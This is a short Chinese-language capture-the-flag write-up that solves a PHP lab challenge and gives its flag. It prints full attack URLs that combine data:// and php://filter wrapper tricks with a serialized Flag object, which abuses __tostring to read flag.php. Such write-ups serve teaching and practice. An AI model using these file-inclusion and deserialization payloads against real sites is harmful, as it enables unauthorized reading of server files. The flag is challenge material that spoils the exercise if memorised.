

## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 分析源码，通过data伪协议构造text，php伪协议获取useless.php  
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=1&file=php://filter/read=convert.base64-encode/resource=useless.php```
2. useless.php文件内容如下，构造序列化的数据，在反序列化之后，会自动执行__tostring函数，实现获得文件内容  
```php
<?php

class Flag{  //flag.php  
    public $file;  //="flag.php"
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
};
//$f=new Flag();
//echo serialize($f);
?>
```
3. 完整载荷如下，这里file利用伪协议的话，会让`echo $password`无法展示，故这里为useless.php   
```http://f24186f1-2297-429c-a5c2-67224f46c43a.node3.buuoj.cn?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}&file=useless.php```
4. 在注释中含有flag  
   

## 总结
- [php伪协议与文件包含](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)
- [php反序列化魔法函数](http://p0desta.com/2018/04/01/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%80%BB%E7%BB%93/)